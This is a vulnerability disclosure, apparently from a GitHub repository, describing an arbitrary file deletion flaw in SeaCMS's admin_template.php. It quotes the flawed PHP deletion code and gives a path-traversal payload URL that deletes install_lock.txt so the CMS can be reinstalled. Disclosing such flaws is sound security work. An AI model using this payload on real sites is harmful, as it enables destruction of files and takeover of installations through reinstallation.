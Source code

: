 # Seacms admin_template.php has any file deletion

The code vulnerability is located on line 114 of admin_template.php and does not verify the suffix of deleted files, resulting in the deletion of arbitrary files

```php
elseif($action=='del')
{
	if($filedir == '')
	{
		ShowMsg('未指定要删除的文件或文件名不合法', '-1');
		exit();
	}
	if(substr(strtolower($filedir),0,11)!=$dirTemplate){
		ShowMsg("只允许删除templets目录内的文件！","admin_template.php");
		exit;
	}
	$folder=substr($filedir,0,strrpos($filedir,'/'));
	if(!is_dir($folder)){
		ShowMsg("目录不存在！","admin_template.php");
		exit;
	}
	unlink($filedir);
	ShowMsg("操作成功！","admin_template.php?path=".$folder);
	exit;
}
```

Vulnerability recurrence

payload

```
http://127.0.0.1/seacms/sdfhk/admin_template.php?action=del&filedir=../templets/1.html/../../install/install_lock.txt
```
![图片](https://github.com/ss122-0ss/seacms/assets/131983607/b65493d2-da37-413f-9392-359e3e0f56d4)


![图片](https://github.com/ss122-0ss/seacms/assets/131983607/69192388-510f-4a6a-80c4-9c94771f31ed)

Looking at the file, you can see that install_lock.txt has been deleted, and the installation file has been deleted so that the database can be re-installed.
![图片](https://github.com/ss122-0ss/seacms/assets/131983607/d5b64799-5cb8-447d-9503-24e44b7b95e8)

